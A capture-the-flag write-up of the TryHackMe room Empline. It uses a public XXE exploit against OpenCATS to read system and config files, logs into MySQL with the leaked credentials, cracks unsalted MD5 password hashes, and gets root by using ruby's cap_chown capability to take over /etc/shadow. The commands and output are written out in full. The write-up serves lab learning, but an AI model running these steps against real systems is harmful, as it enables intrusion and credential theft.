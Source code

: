 This is a writeup on the TryHackMe box, [Empline](https://tryhackme.com/room/empline)

# Enumeration
## Port scanning
After the box is up, we start with nmap:

```nmap -sC -sV -Pn 10.10.142.249```

This command scans the top 1000 ports. We get the following result:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-27 02:03 EST
Nmap scan report for 10.10.142.249
Host is up (0.27s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
1301/tcp filtered ci3-software-1
1443/tcp filtered ies-lm
2065/tcp filtered dlsrpn
2190/tcp filtered tivoconnect
3306/tcp open     mysql          MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 51
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSigpipes, LongColumnFlag, FoundRows, Support
sCompression, LongPassword, IgnoreSpaceBeforeParenthesis, ODBCClient, Speaks41ProtocolNew, SupportsTransactions, InteractiveClient, Speaks41P
rotocolOld, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: uLWRskCH#s<n8k5aku,v
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.24 seconds

```

Most interesting ports here are port 80 for http and port 3306 for mysql.
## Web
Heading to the website, we see the following page.
![[Pasted image 20211227045656.png]]

Most of the website is not very intersting, however, we do find an interesting link: `job.empline.thm/careers`. 

We add the following line to `/etc/hosts` 
```
10.10.142.249   empline.thm job.empline.thm
```

and head to `job.empline.thm/careers`

![[Pasted image 20211227050127.png]]

Digging around `job.empline.thm`, we see it's running version 0.9.4 of [opencats](https://www.opencats.org/).
![[Pasted image 20211227050421.png]]

After some googling, we find there's potentially an xxe vulnerability([official notice](https://www.opencats.org/news/2019/july/), [more reading](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)). 

# Foothold
We find the existing [exploit](https://www.exploit-db.com/exploits/50316) on exploitdb. Using the `/etc/passwd` file(`python3 50316.py --url job.empline.thm --file /etc/passwd`), we verify the the website is indeed vulnerable to xxe. Additionally, in the `/etc/passwd` file, we notice an interesting user `george`. 
```
george:x:1002:1002::/home/george:/bin/bash
```
`george` is the only user other than `root` that has a shell. We'll likely escalate to `george` at some point.

Digging around the github repo for opencats, we find the database credentials are likely stored in the `config.php` file([github](https://github.com/opencats/OpenCATS/blob/master/config.php)). Using the same exploit on `config.php`, we find potential database credentials.
```
python3 50316.py --url job.empline.thm --file config.php
```
```
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', '[omitted]');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
```

Earlier from nmap, we found the mysql port is also open. We can connect to their database from our kali box
`mysql --host=10.10.142.249 --user=james --password=[omitted]`

After digging around, we find some password hashes in the `opencats` database under the `user` table.

```
MariaDB [opencats]> select user_name, password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | cantlogin                        |
| george         | [omitted]                        |
| james          | [omitted]                        |
+----------------+----------------------------------+
```

After some quick search in their github repo, we find these are md5 hashes with no salt([lib/Users.php](https://github.com/opencats/OpenCATS/blob/2764566bcb37ebde9e87f9106e9defed3d7d7c0c/lib/Users.php#L679)).

Using a rainbow table online, we can crack the hash to find the password for the user `george`. 

![[Pasted image 20211227053840.png]]

# PrivEsc
After ssh-ing into the the machine as `george`, we find the `user.txt` file under `/home/george`.
```
george@empline:/tmp$ ls -al /home/george
total 32
drwxrwx--- 5 george george 4096 Dec 27 10:39 .
drwxr-xr-x 4 root   root   4096 Jul 20 19:48 ..
-rw------- 1 george george  252 Dec 27 10:39 .bash_history
drwx------ 2 george george 4096 Dec 27 08:25 .cache
drwxr-x--- 3 george george 4096 Dec 27 08:27 .config
drwx------ 3 george george 4096 Dec 27 08:27 .gnupg
-rw------- 1 george george 1019 Dec 27 08:37 .viminfo
-rw-r--r-- 1 root   root     33 Jul 20 19:48 user.txt
```

Using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to enumerate, we fin the following misconfiguration on `ruby`:
```
Files with capabilities (limited to 50):
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
In this case, `ruby` is given the permission to change the ownership of any file([more reading](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_chown)). We can abuse this by changing the owner of `/etc/shadow` to `george` and modifying the root password.
First we need the numeric id of `george`:
```
george@empline:/tmp$ id
uid=1002(george) gid=1002(george) groups=1002(george)
```

Then we can do `ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'` to change ownership or `/etc/shadow`.

To change root's password, we can simple do `mkpasswd pass` to generate the hash of the password `pass` and modify `/etc/shadow` to use our new hash.
```
root:BbbQ1kZ5muW8.:18828:0:99999:7:::
```

Using the password we set earlier, we `su root` to get a shell as the root user.
At last, we find `root.txt` under `/root`
```
root@empline:/tmp# ls -al /root
total 36
drwx------  4 root root 4096 Jul 20 19:52 .
drwxr-xr-x 24 root root 4096 Dec 27 07:02 ..
-rw-------  1 root root   57 Dec 27 10:39 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jul 20 19:49 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 20 19:45 .ssh
-rw-r--r--  1 root root  227 Jul 20 19:48 .wget-hsts
-rw-r--r--  1 root root   33 Jul 20 19:48 root.txt
```